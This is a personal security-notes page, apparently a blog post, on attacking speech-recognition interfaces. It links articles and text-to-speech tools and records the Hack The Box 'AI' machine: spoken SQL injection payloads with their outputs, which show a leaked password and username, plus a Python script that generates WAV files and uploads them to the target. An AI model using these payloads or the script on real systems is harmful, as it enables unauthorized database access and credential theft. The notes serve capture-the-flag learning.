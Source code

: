 ```yaml
---
layout: post
title: AI
description: AI
summary: AI
tags: [ai]
minute: 1
---
```

## Sample PHP Pseudo Code
```php
$voice = new play('file.wav');
$result = $voice->recognise("Good Morning");
if ($result) { 
  echo "Matched Good Morning"; 
  //flag to database or csv
 } else { 
  echo "No match found";
 }
```

## Attacks
* [Text-To-Speech speaks pwned | Flanker Sky](https://blog.flanker017.me/text-to-speech-speaks-pwned/)
* [Alexa Can Be Hacked with SQL Injection to Give Away Private Info - IoT Tech Trends](https://www.iottechtrends.com/alexa-hacked-sql-injection/)

## Tools
* [Text to speech free online | Text to mp3, Text to wav](https://www.texttospeechfree.com/)
* [Text 2 Speech](https://www.text2speech.org/) - Includes more voices such as Male US, I used this in HTB Ai
* [Flite](https://github.com/festvox/flite) - Command line equivalent of [Text 2 Speech](https://www.text2speech.org/)

```bash
# Generates WAV file from Male US voice
flite -voice rms "hello world" a.wav
```

* [text2wav](http://manpages.ubuntu.com/manpages/bionic/man1/text2wave.1.html) - similar to flite

```bash
echo "Hello open single quote" | text2wave -o ai.wav
```

## Voice to SQL
* [GitHub - Shravankumarhiregoudar/Speech-to-SQL-Research-Paper](https://github.com/Shravankumarhiregoudar/Speech-to-SQL-Research-Paper#:~:text=Speech%20to%20SQL%20query%20generator,connecting%20to%20the%20backend%20database.)
* [Just Speak SQL | ADA Lab Blog](https://adalabucsd.github.io/research-blog/research/2020/06/14/speakql.html)

## Speech to SQL Queries and Payloads
* From HTB AI:

![](/spindel/assets/AI/DB424957-B1BF-4C2B-8C56-EFE656773724.png)

* [Windows Speech Recognition commands](https://support.microsoft.com/en-us/windows/windows-speech-recognition-commands-9d25ef36-994d-f367-a81a-a326160128c7)
* Some custom payloads from HTB AI (See python script below for reference):

```bash
# I didn't see any speech to text command for "select" in
# microsoft website but this works in this form.
# Result:
#  <h3>Our understanding of your input is : 'union select 1 -- -<br />Query result : 1<h3>
./sqli.py "open single quote union select 1 comment database"

# Here, "select" and "password" was combined to "selectpassword"
# Result: H,Sq9t6}a<)?q93_
./sqli.py "open single quote union selectpassword from users comment database"

# Adding "space" to get username
# Result: <h3>Our understanding of your input is : 'union select   username from users -- -<br />Query result : alexa<h3>
./sqli.py "open single quote union select space username from users comment database"
```

* From HTB AI official walkthrough

```bash
' union select password from users#
```

## Python script to automate upload of WAV File
```python
#!/usr/bin/env python3

import requests
import os
import sys
import re

proxies = {'http': 'http://127.0.0.1:8080'}
url = 'http://ai/ai.php'
wav_filename = 'voice.wav'
voice_filename = 'voice.txt'

try:
  query = sys.argv[1]
except IndexError:
  print('Example Usage: ./sqli.py "Comment database"')
  sys.exit(0)

def generate_wav(query):
  with open(voice_filename, 'w') as f:
    f.write(query)
  os.system('flite -voice rms {} {}'.format(voice_filename, wav_filename))

def send_file():
  data = {'wav_filename': wav_filename, 'name': 'Submit'}
  files = {
    'fileToUpload': (wav_filename, open(wav_filename, 'rb')),
    'submit': (None, 'Process It!')
    }
  r = requests.post(url, files=files, proxies=proxies)
  sql_response = re.findall('<h3>Our understanding.+<h3>', r.text)[0]
  print(sql_response)

generate_wav(query)
send_file()
```

## References
* [BRA.I.NSMASHER Presentation - HackTricks](https://book.hacktricks.xyz/a.i.-exploiting/bra.i.nsmasher-presentation#presentation)